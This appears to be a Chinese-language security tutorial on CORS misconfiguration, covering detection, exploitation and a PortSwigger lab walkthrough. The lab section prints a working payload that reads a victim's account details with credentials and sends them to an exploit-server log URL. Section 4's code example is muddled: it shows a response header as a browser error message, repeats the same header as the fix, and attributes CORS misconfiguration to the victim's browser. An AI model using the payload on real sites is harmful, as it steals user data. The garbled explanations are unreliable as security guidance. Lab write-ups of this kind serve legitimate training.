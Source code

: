 # 一、cors概述
1. CORS是跨源资源共享的缩写，是由Web浏览器实现的一种安全特性，限制了Web页面向不同于提供Web页面的域名发出请求。这是为了防止恶意网站窃取数据或在用户不知情的情况下执行操作。
2. CORS漏洞是指在Web应用程序中，由于未正确配置CORS策略，攻击者可以通过跨域请求来获取受害者的敏感信息或执行恶意操作。CORS漏洞通常发生在Web应用程序使用AJAX请求时，攻击者可以通过构造恶意请求来绕过浏览器的同源策略，从而获取受害者的敏感信息或执行恶意操作。
3. cors不能防止跨域攻击，如csrf
# 二、cors漏洞的发现与检测
1. 检测一个网站是否存在CORS漏洞，可以使用浏览器的开发者工具来检查网站的响应头。如果网站的响应头中包含Access-Control-Allow-Origin:，则表示该网站允许所有域名的请求，存在CORS漏洞。如果响应头中包含Access-Control-Allow-Origin:特定域名，则表示该网站只允许特定域名的请求，不存在CORS漏洞。
2. 抓包，在数据包中添加Orgin参数，参数值为该网站域名、子域名或者其他网站的域名，观察发送后的返回包中是否有Access-Control-Allow-Origin、Access-Control-Allow-Credentials两个参数，若有，则存在cors漏洞。
# 三、cors漏洞的利用
1. 要利用CORS漏洞，攻击者需要构造恶意请求，并将其发送到受害者的浏览器。攻击者可以使用各种技术来构造恶意请求，例如使用JavaScript或其他编程语言编写恶意代码，或使用代理工具来修改请求头。如果受害者的浏览器未正确配置CORS策略，则会允许来自攻击者域名的请求，并执行恶意代码。
2. 通过与xss相结合，攻击者可以使用CORS漏洞来获取受害者的敏感信息，然后使用XSS漏洞来执行恶意操作。
# 四、代码示例
1. 使用JS编写一个存在cors漏洞的代码示例
```JavaScript
//存在CORS漏洞的JavaScript代码示例
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://example.com/data', true);
​￼xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
	// 处理响应数据
	}
};
xhr.send();
```
2. 在这个示例中，我们使用XMLHttpRequest对象向另一个域名（http://example.com）发出GET请求。如果该域名未正确配置CORS策略，则浏览器将拒绝该请求，并显示以下错误消息：
```HTTP
Access-Control-Allow-Origin: http://localhost
```
3. 为了修复这个漏洞，我们需要在服务器端正确配置CORS策略，允许来自http://localhost的请求。例如，我们可以在服务器端添加以下响应头：
```HTTP
Access-Control-Allow-Origin: http://localhost
```
# 五、BurpSuite靶场示例
1. [BurpSuite靶场cors# 具有可信空源的 CORS 漏洞](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)。打开后如下，给了一个登录凭据wiener:peter
![1.png](./img/cors/1.png)
2. 点击访问实验室后再点击右上角的我的账户
![2.png](./img/cors/2.png)
3. 使用前面给出的登录凭据登录，如下
![3.png](./img/cors/3.png)
4. 抓包，先看数据包，发现没有Origin参数，但是返回数据包中有Access-Control-Allow-Credentials: true，且返回了用户信息
![4.png](./img/cors/4.png)
5. 添加Origin参数测试，可以看到返回数据包中多了Access-Control-Allow-Origin参数
![5.png](./img/cors/5.png)
6.  利用靶场提供的服务器，编写一个js脚本获取回应，如下
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a3a00a804e2e585817430f1007300d0.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send(null);
    function reqListener() {
       location='https://exploit-0af9006c04abe5c581952f7a0121003b.exploit-server.net/log?key='+this.responseText);
    };
</script>"></iframe>
```
![6.png](./img/cors/6.png)
7. 先store保存，然后点击Deliver exploit to victim，然后查看日志，发现日中成功获取到了用户信息
![7.png](./img/cors/7.png)